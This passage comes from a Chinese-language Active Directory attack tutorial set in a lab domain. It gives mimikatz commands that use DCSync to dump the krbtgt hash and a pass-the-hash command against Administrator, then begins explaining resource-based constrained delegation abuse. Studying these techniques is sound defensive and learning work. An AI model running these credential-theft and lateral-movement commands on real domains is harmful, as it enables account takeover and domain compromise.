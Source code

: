 [![](assets/1705982146-f3a2018a17419bfeec9b269b6a485dbc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223145-a31c68bc-b7a0-1.png)  
Step 5:利用DCSync读取krbtgt的HASH

```plain
lsadump::dcsync /user:krbtgt /domain:hacke.testlab
```

Step 6:通过dcsync读取hacke\\Administrator的HASH进行PTH

```plain
privilege::debug
sekurlsa::pth /user:Administrator /domain:hacke.testlab /ntlm:9492fbc31a047a42a454f0e1701103dc /run:cmd.exe
```

PS：以上Step 5、6为后续补充的，所以没有截图，同时Step 5、6可以用作横向移动~

### 资源约束性委派攻击

#### 基本介绍

该攻击由国外安全研究员Elad Shami提出，他在文章中指出无论服务账号的UserAccountControl属性是否被设置为TrustedToAuthForDelegation值，服务自身都可以通过调用S4U2Self来为任意用户请求自身的服务票据，但是当没有设置该属性时，KDC通过检查服务账号的TrustedToAuthForDelegation位和msDS-AllowedToDelegateTo这两个字段，发现没有被赋值时，服务自身通过S4U2Self请求到的ST服务票据是不可转发的，因此不可转发的ST服务票据是无法通过S4U2Proxy转发到其他服务进行约束性委派认证的，但是在基于资源的约束委派过程中，不可转发的ST服务票据仍然可以通过S4U2Proxy转发到其他服务进行委派认证，并且最后服务还会返回一张可转发的ST服务票据，因此，如果我们能够在服务B上配置允许服务A的基于资源的约束委派，那么我们就可以通过控制服务A使用S4U2Self向域控请求任意用户访问自身的服务票据，最后再使用S4U2Proxy转发此ST票据去请求访问服务B的可转发的ST服务票据，那么我们就可以模拟任意用户访问服务B了，这里我们可以以普通域用户的身份去创建机器账号作为服务A。  
引用博客文章中的一张图说明该攻击步骤：  